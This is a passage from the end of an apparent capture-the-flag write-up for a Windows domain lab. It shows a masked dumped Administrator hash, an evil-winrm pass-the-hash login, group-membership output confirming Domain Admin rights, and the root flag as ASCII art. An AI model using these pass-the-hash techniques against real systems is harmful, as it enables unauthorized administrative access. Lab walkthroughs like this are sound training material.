Administrator:500:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
...
```

I can finally login as Administrator

```bash
└─$ evil-winrm -i kitsune.local -u Administrator -H 'xxxxxxxxxxxxxx'                                                                                                                                                   
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
kitsune\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                     Type             SID                                           Attributes
============================================== ================ ============================================= ===============================================================
Everyone                                       Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                         Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                  Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access        Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access     Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                           Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users               Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                 Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
KITSUNE\Group Policy Creator Owners            Group            S-1-5-21-3773590124-4237107295-2360938966-520 Mandatory group, Enabled by default, Enabled group
KITSUNE\Domain Admins                          Group            S-1-5-21-3773590124-4237107295-2360938966-512 Mandatory group, Enabled by default, Enabled group
KITSUNE\Enterprise Admins                      Group            S-1-5-21-3773590124-4237107295-2360938966-519 Mandatory group, Enabled by default, Enabled group
KITSUNE\Schema Admins                          Group            S-1-5-21-3773590124-4237107295-2360938966-518 Mandatory group, Enabled by default, Enabled group
KITSUNE\Denied RODC Password Replication Group Alias            S-1-5-21-3773590124-4237107295-2360938966-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication               Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level           Label            S-1-16-12288

```

With this, the admin flag is obtained.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/13/2026   4:17 AM           1885 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
......................................................................
......................................................................
......................................................................
................................-%@@%-................................
.............................:%@@@@@@@@%:.............................
............................*@@@@@@@@@@@@#............................
...........................%@@@@@@@@@@@@@@@...........................
..........................@@@@@@@@@@@@@@@@@@:.........................
.........................@@@@@%#=-::-=#%@@@@@:........................
........................#@%+-=++=:..:=+++-=%@#........................
.......................=@%@@@-..:*@@#:..-@@@@@+.......................
.......................#@@@@##:::%--%:::##@@@@#.......................
.......................-@@@@+.:::....:::.+@@@@-.......................
........................:@@@@-..........-@@@@:........................
.......................-##*@@@#........#@@@*##=.......................
....................-@@@@@@%%@@@%+::+%@@@%%@@@@@@-....................
...................%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%...................
..................%@@@=------------------------=@@@%..................
.................*@@@#..........................%@@@+.................
.................@@@@@..........................@@@@@.................
................+@@@@@:..........*@@#..........:@@@@@+................
................#@@@@@=..........:@@-..........=@@@@@#................
................*@@@@@*........ranch...........*@@@@@*................
......................%.......obtained.........@......................
......................=@@@@@@@@@@@@@@@@@@@@@@@@=......................
......................................................................
```
